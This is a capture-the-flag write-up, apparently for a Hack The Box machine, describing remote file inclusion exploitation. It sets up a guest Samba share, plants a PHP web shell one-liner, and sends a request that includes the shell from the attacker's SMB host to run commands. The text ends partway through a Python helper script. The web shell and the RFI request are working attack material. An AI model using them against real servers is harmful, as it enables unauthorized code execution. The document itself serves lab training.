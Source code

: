 Unfortunately I wasn't able to fix the error with smbserver.py "Handle: [Error 104] Connection reset by peer", and was never able to successfully serve a php file this way (if anyone knows what's going on here please let me know). So instead I resorted to creating my own SMB share and configuring
`smbd` to serve up my payload. Below are the steps for exploitation.

1. Modify `/etc/samba/smb.conf` as follows to set up a guest accessible share out of /tmp
```
[share]
path = /tmp
writeable = no
guest ok = yes
guest only = yes
read only = yes
directory mode = 0555
force user = nobody
``` 
2. Write a PHP payload to /tmp - I went for something nice and simple: `<?php echo(shell_exec($_GET['cmd'])); >?
3. Start the smb service: `service smbd start`
4. Make the HTTP GET request: `http://10.10.10.151/blog/?lang=\\10.10.14.8\share\shell.php&cmd=ipconfig`

![Image](/assets/img/sniper/sniper_web_exploit_2.png)

And now I've confirmed that I can execute code on the server!

Next, I quickly wrote a script that would make sending further commands easier and faster while I tried to work out what accesses I had and attempted to upgrade my shell. It's pretty crappy (especially my attempt at filtering command output) and the OPSEC considerations of continually smashing the server with commands via RFI like this are significant.

```python
#!/usr/bin/env python3

import requests
import sys
from bs4 import BeautifulSoup

# ensure smbd is running and a shell is in the share before running this
# shell = "<?php echo(shell_exec($_GET['cmd'])); ?>"

# Take local ip address as first command-line argument
lhost = sys.argv[1]

target = "http://10.10.10.151/blog/?lang=\\\\" + lhost + "\share\shell.php"
```